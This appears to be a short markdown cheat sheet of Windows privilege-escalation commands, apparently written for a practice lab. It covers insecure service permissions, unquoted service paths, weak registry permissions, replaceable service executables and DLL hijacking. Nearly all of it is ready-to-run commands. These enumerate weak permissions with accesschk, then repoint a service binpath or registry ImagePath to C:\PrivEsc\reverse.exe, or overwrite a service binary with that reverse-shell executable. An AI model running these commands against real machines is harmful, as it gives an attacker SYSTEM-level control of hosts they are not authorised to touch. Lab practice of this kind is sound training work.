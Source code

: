 For quering using sc

```cmd
 sc query daclsvc

```
### Insecure service Permissions

```cmd
 sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe""
```

### Unquoted Service Path

```cmd
 .\accesschk.exe /accepteula -uwdq C:\
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
 .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```
### Weak Registry Permissions

```cmd
> .\accesschk.exe /accepteula -ucvq regsvc
```

```cmd
> powershell -exec bypass
```
```ps
 Get-Acl HKLM:\System\currentcontrolset\services\regsvc
 reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
 reg query HKEY_LOCAL_MACHINE\System\currentcontrolset\services\regsvc
```

### Insecure Service executables


```cmd

 .\accesschk.exe /accepteula -quvw "C:\ProgramFiles\File Permissions Service\filepermservice.exe"

```

```cmd
 .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```
```cmd
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

### DLL Hijacking

```cmd
 .\accesschk.exe /accepteula -uvqc dllsvc
 sc qc dllsvc
```

